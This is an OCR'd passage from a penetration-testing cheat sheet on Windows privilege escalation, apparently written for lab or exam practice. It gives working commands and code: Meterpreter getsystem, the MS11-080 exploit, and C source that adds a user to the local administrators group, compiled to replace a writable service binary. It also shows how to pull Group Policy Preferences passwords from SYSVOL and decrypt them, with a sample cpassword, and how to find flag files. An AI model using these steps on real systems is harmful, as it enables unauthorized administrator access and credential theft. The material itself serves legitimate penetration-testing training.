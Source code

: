 -   Windows Privilege Escalation
    --------------------------------------------------------------------------------------------------------------------------

-   Try the getsystem command using meterpreter - rarely works but is worth a try.
    `meterpreter > getsystem`

-   Metasploit Meterpreter Privilege Escalation Guide
    https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/

-   Windows MS11-080 - http://www.exploit-db.com/exploits/18176/  
    python pyinstaller.py --onefile ms11-080.py  
    mx11-080.exe -O XP

-   Windows Service Configuration Viewer - Check for misconfigurations
    in services that can lead to privilege escalation. You can replace
    the executable with your own and have windows execute whatever code
    you want as the privileged user.  
    icacls scsiaccess.exe

> scsiaccess.exe  
> NT AUTHORITY\\SYSTEM:(I)(F)  
> BUILTIN\\Administrators:(I)(F)  
> BUILTIN\\Users:(I)(RX)  
> APPLICATION PACKAGE AUTHORITY\\ALL APPLICATION PACKAGES:(I)(RX)  
> Everyone:(I)(F)

-   Compile a custom add user command in windows using C  
    root@kali:~\# cat useradd.c  
    \#include &lt;stdlib.h&gt; /\* system, NULL, EXIT\_FAILURE \*/  
    int main ()  
    {  
    int i;  
    i=system ("net localgroup administrators low /add");  
    return 0;  
    }  
      
    i686-w64-mingw32-gcc -o scsiaccess.exe useradd.c

-   Group Policy Preferences (GPP)  
    A common useful misconfiguration found in modern domain environments
    is unprotected Windows GPP settings files

    -   map the Domain controller SYSVOL share  
        net use z: \\\\dc01\\SYSVOL

    -   Find the GPP file: Groups.xml  
        dir /s Groups.xml

    -   Review the contents for passwords  
        type Groups.xml

    -   Decrypt using GPP Decrypt  
        gpp-decrypt
        riBZpPtHOGtVk+SdLOmJ6xiNgFH6Gp45BoP3I6AnPgZ1IfxtgI67qqZfgh78kBZB
        
-   Find and display the proof.txt or flag.txt - get the loot!
    `cd\`
    `dir /b /s proof.txt`
    `type c:\pathto\proof.txt`
    